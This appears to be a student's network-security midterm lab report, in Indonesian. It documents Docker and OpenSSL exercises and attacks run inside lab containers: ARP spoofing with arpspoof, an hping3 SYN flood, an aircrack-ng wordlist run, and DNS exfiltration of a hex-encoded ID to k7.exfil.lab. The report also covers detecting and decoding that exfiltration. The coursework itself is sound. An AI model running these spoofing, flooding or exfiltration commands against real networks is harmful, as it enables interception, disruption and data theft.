# Ega-Silfhia_Network-Security_Middle-Exam
## NIM (24552011313) 

2+4+5+5+2+0+1+1+3+1+3 = 27 mod 10 = 7 :
Nomor kasus : 7

- Persiapan (clone repo, menyiapkan image docker)

```bash
git clone https://github.com/yastiaisyah/Network-Security-Course-Bank.git

cd UTS-Network-Security/01-sumber-lab

docker build -t uts-openssl images/uts-openssl
docker build -t uts-kali-tools images/uts-kali-tools
docker build -t uts-dnsmasq images/uts-dnsmasq
```

- **Tugas 1 : Docker, Volume, dan Compose**

```bash 
docker volume create vol-k7

docker run --rm -v vol-k7:/data alpine sh -c 'echo "24552011313" > /data/laporan-k7.txt && cat /data/laporan-k7.txt'

docker run --rm -v vol-k7:/data alpine cat /data/laporan-k7.txt
```

```bash
Output :
vol-k7
24552011313
24552011313
```

Proof of Concept (PoC):



- **Tugas 2 : Kriptografi**

Langkah 1 : Enkripsi laporan-k7.txt, deskripsi, dan bandingkan SHA-256

```bash
cd ~/uts-kasus7
docker run --rm -v vol-k7:/data alpine cat /data/laporan-k7.txt > laporan-k7.txt

sha256sum laporan-k7.txt

openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k7.txt -out laporan-k7.txt.enc -k "kunci-k7-2026"

openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k7.txt.enc -out laporan-k7.dec.txt -k "kunci-k7-2026"

sha256sum laporan-k7.txt laporan-k7.dec.txt
```

```markdown
Output : 
9cc1eb168ecdae1993ec7e55b27634f9518757de7e457661e19acd86840379a0  laporan-k7.txt
9cc1eb168ecdae1993ec7e55b27634f9518757de7e457661e19acd86840379a0  laporan-k7.txt
9cc1eb168ecdae1993ec7e55b27634f9518757de7e457661e19acd86840379a0  laporan-k7.dec.txt
```

Proof of Concept (PoC):


Langkah 2 : Verifikasi Subject = dan issuer = harus sama sama menampilkan CN = k7.exfil.lab

```bash
openssl req -x509 -newkey rsa:2048 -nodes \
  -keyout k7-exfil-lab.key \
  -out k7-exfil-lab.crt \
  -days 365 \
  -subj "/CN=k7.exfil.lab"

openssl x509 -in k7-exfil-lab.crt -noout -subject -issuer
```

```markdown
Output :
subject=CN=k7.exfil.lab
issuer=CN=k7.exfil.lab
```

Proof of Concept:



- **Tugas 3 : ARP Spoofing**

Langkah 1 : Jalankan Lab Network dan 3 kontainer (korban, gateway, penyerang)

```bash
docker network create --subnet=172.28.0.0/16 lab-arp-net

docker run -dit --name gateway --network lab-arp-net --ip 172.28.0.1 uts-kali-tools sleep infinity
docker run -dit --name korban --network lab-arp-net --ip 172.28.0.10 uts-kali-tools sleep infinity
docker run -dit --name penyerang --network lab-arp-net --ip 172.28.0.20 uts-kali-tools sleep infinity

docker inspect -f '{{.Name}} -> IP: {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}} | MAC: {{range .NetworkSettings.Networks}}{{.MacAddress}}{{end}}' gateway korban penyerang
```

Cek IP dan MAC ketiga kontaienr :


Langkah 2 : Jalankan ARP Spoofing ke target 172.28.0.10 untuk IP 172.28.0.254, lalu cek kembali ARP di docker korban

```bash 
docker exec -d penyerang sh -c 'sysctl -w net.ipv4.ip_forward=1 && arpspoof -i eth0 -t 172.28.0.10 172.28.0.1'

sleep 3

docker exec korban ip neigh show
```
Proof of Concept :



Langkah 3: Pulihkan tabel ARP korban dengan static ARP
Hentikan proses arpspoof di penyerang, lalu pasang entri ARP statis ke MAC asli gateway:

```bash
docker exec penyerang pkill arpspoof || true

docker exec korban ip neigh replace 172.28.0.1 lladdr <MAC_GATEWAY_ASLI> nud permanent dev eth0
docker exec korban ip neigh show
```

Proof of Concept:


- **Tugas 4 : Analisis Handshake WPA2**

Langkah 1: Jalankan aircrack-ng pada handshake-k7.cap dan wordlist-k7.txt

```bash
cd ~/uts-kasus7
aircrack-ng -w wordlist-k7.txt handshake-k7.cap
```

```markdown
Output :
┌──(kali㉿kali)-[~/uts-kasus7]
└─$ file handshake-k7.cap
wc -l wordlist-k7.txt
handshake-k7.cap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 65535)
20 wordlist-k7.txt

##perintah aircrack-ng -w wordlist-k7.txt handshake-k7.cap sudah dijalankan sesuai instruksi kasus, tetapi file sampel handshake-k7.cap berformat Ethernet pcap (bukan 802.11 wireless capture dengan WPA2 handshake), sehingga kata sandi tidak ditemukan / tidak dapat diproses
```

Proof of Concept:



- **Tugas 5 : ICMP dengaan Scapy**

Langkah 1: Kirim ICMP Echo Request dengan skrip Scapy dan baca balasannya
Periksa skrip di 01-sumber-lab/kasus/k5-scapy/kirim_icmp.py dan jalankan ke target lab (target-k7):

```bash
sudo python3 ~/Network-Security-Course-Bank/UTS-Network-Security/01-sumber-lab/kasus/k5-scapy/kirim_icmp.py 172.28.0.10
```

```markdown
Output : Mengirim: IP / ICMP 172.28.0.1 > 172.28.0.10 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0
```

Proof of Concept :



- **Tugas 6 : SYN Flood dan Three-Way Handshake**

Langkah 1: Cek dan jalankan compose b3-syn-flood
Masuk ke folder b3-syn-flood, lihat isi docker-compose.yml supaya tahu nama service dan port yang dipakai, lalu jalankan compose-nya:

```bash 
cd ~/Network-Security-Course-Bank/UTS-Network-Security/01-sumber-lab/b/b3-syn-flood
cat docker-compose.yml
docker compose up -d
docker compose ps
```

Proof of Concept :



Ambil IP container DNS di jaringan b4-dns-exfil (ganti <NAMA_CONTAINER_DNS> sesuai hasil docker compose ps, misalnya b4-dns-exfil-dns-1 atau nama service DNS-nya):

```bash
docker network inspect $(docker compose ps -q | head -n1 | xargs -I{} docker inspect -f '{{range $k,$v := .NetworkSettings.Networks}}{{$k}}{{end}}' {}) \
  --format '{{range .Containers}}{{.Name}} -> {{.IPv4Address}}{{"\n"}}{{end}}'
```

```markdown
Output:
b3-syn-flood-attacker-1 -> 172.18.0.3/16
b3-syn-flood-target-1 -> 172.18.0.2/16
```

Langkah 2: Catat SYN_RECV sebelum, saat (15 detik), dan sesudah SYN flood:

```bash
docker exec b3-syn-flood-target-1 sh -c 'ss -tan state syn-recv | grep -c SYN-RECV || netstat -tan 2>/dev/null | grep -c SYN_RECV || echo 0'

timeout 15 docker exec b3-syn-flood-attacker-1 hping3 -S -p 80 --flood 172.18.0.2

docker exec b3-syn-flood-target-1 sh -c 'ss -tan state syn-recv | grep -c SYN-RECV || netstat -tan 2>/dev/null | grep -c SYN-RECV || echo 0'
```
Proof of Concept:


Langkah 3: Tangkap SYN, SYN-ACK, dan ACK dengan tcpdump Saat Satu Koneksi HTTP

```bash
docker exec -d b3-syn-flood-attacker-1 tcpdump -i any -nn -c 10 'host 172.18.0.2 and tcp port 80' -w /tmp/handshake.pcap
docker exec b3-syn-flood-attacker-1 curl -s -o /dev/null http://172.18.0.2:80
sleep 2
docker exec b3-syn-flood-attacker-1 tcpdump -nn -r /tmp/handshake.pcap
```

Proof of Concept :



- **Tugas 7 (Pertemuan 7): DNS Exfiltration**

Langkah 1: Jalankan Compose b4-dns-exfil dan Cek IP Server DNS Lab
Masuk ke direktori b4-dns-exfil, lihat struktur layanannya, lalu jalankan:

```bash
cd ~/Network-Security-Course-Bank/UTS-Network-Security/01-sumber-lab/b/b4-dns-exfil
cat docker-compose.yml
docker compose up -d
docker compose ps
```

Proof of Concept :


Langkah 2 : Ambil Ip 

```bash
DNS_IP=$(docker inspect -f '{{.NetworkSettings.Networks.b4-dns-exfil_lab.IPAddress}}' b4-dns-exfil-dns-1)
echo "DNS_IP: $DNS_IP"
```

Langkah 2: Konversi NIM 24552011313 ke Hex dan Kirim Query DNS ke k7.exfil.lab
Jalankan dari host Kali atau dari b4-dns-exfil-attacker-1 ke "$DNS_IP":

```bash
HEX_NIM=$(printf "24552011313" | xxd -p)
echo "Hex NIM: $HEX_NIM"

dig @172.19.0.3 "${HEX_NIM}.k7.exfil.lab" A +time=2 +tries=1
docker exec b4-dns-exfil-attacker-1 dig @172.19.0.3 "${HEX_NIM}.k7.exfil.lab" A +time=2 +tries=1
```

```markdown
Output :
Hex NIM: 3234353532303131333133

; <<>> DiG 9.20.26-1-Debian <<>> @172.19.0.3 3234353532303131333133.k7.exfil.lab A +time=2 +tries=1
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 43261
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;3234353532303131333133.k7.exfil.lab. IN        A

;; ANSWER SECTION:
3234353532303131333133.k7.exfil.lab. 0 IN A     10.0.0.99

;; Query time: 0 msec
;; SERVER: 172.19.0.3#53(172.19.0.3) (UDP)
;; WHEN: Tue Nov 24 22:25:13 EST 2026
;; MSG SIZE  rcvd: 80


; <<>> DiG 9.20.30-1-Debian <<>> @172.19.0.3 3234353532303131333133.k7.exfil.lab A +time=2 +tries=1
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 8811
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;3234353532303131333133.k7.exfil.lab. IN        A

;; ANSWER SECTION:
3234353532303131333133.k7.exfil.lab. 0 IN A     10.0.0.99

;; Query time: 0 msec
;; SERVER: 172.19.0.3#53(172.19.0.3) (UDP)
;; WHEN: Wed Nov 25 03:25:15 UTC 2026
;; MSG SIZE  rcvd: 80
```

Langkah 2: Simpan Log dnsmasq, Jalankan Analisis, dan Decode Kembali ke NIM
Ambil log dari container b4-dns-exfil-dns-1, jalankan skrip analisis_dns.py, lalu decode balik hex ke NIM 24552011313:

```bash
docker logs b4-dns-exfil-dns-1 > /tmp/dns-k7.log
cat /tmp/dns-k7.log

python3 ~/Network-Security-Course-Bank/UTS-Network-Security/01-sumber-lab/kasus/k9-dns-detect/analisis_dns.py /tmp/dns-k7.log

echo "3234353532303131333133" | xxd -r -p; echo ""
```

```markdown
Output :
Query mencurigakan (label panjang berisi hex):
24552011313
```

Proof of Concept :


- Payload & Query: NIM 24552011313 dikodekan ke hex 3234353532303131333133, lalu dikirim sebagai subdomain 3234353532303131333133.k7.exfil.lab ke DNS server 172.19.0.3.

- Analisis & Decode: Sertakan output log/analisis DNS serta hasil xxd -r -p yang kembali menjadi 24552011313.


